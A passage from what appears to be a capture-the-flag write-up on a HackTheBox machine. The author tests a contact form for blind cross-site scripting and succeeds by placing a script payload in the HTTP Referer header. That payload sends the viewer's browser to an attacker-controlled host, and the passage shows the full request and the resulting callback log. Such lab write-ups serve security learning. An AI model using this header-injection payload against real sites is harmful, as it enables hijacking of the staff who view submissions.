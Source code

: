 The other is to try other fields. I'll go through Burp to try the fields
with client-side filtering, but all of them trigger the alert.

#### Referer

Thinking about what happens on submitting, there is an HTTP POST request
to `process.php`. This script will parse the incoming request, pulling
out whatever information from the request it wants, and generate some
way to send that to the user who needs to handle the requests.

There may be cases where it makes sense to include something like the
referrer header in this information. For example, if the same web page
is used to manage contact me submissions from multiple sites. There's a
real life example of XSS in the Referer head
[here](https://www.horizon3.ai/news/disclosures/mautic-unauth-xss-to-rce).

I'll kick the form submission request over to Burp Repeater and set the
referrer header to the XSS payload:



    POST /process.php HTTP/1.1
    Host: portfolio.stacked.htb
    User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 208
    Origin: http://portfolio.stacked.htb
    DNT: 1
    Connection: close
    Referer: <script>document.location="http://10.10.14.6/referer"</script>

    fullname=0xdf&email=0xdf%40stacked.htb&tel=012345667890&subject=Help&message=Please+help



On sending that, a few minutes later there are three requests at my
Python webserver:



    oxdf@hacky$ python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.11.112 - - [24/Aug/2021 11:15:04] code 404, message File not found
    10.10.11.112 - - [24/Aug/2021 11:15:04] "GET /referer HTTP/1.1" 404 -
    10.10.11.112 - - [24/Aug/2021 11:15:04] code 404, message File not found
    10.10.11.112 - - [24/Aug/2021 11:15:04] "GET /favicon.ico HTTP/1.1" 404 -
    10.10.11.112 - - [24/Aug/2021 11:15:04] code 404, message File not found
    10.10.11.112 - - [24/Aug/2021 11:15:04] "GET /favicon.ico HTTP/1.1" 404 -



It actually makes life a bit easier if instead of redirecting the entire
page to me, I just have it load JavaScript from my server. I'll try with
this payload:
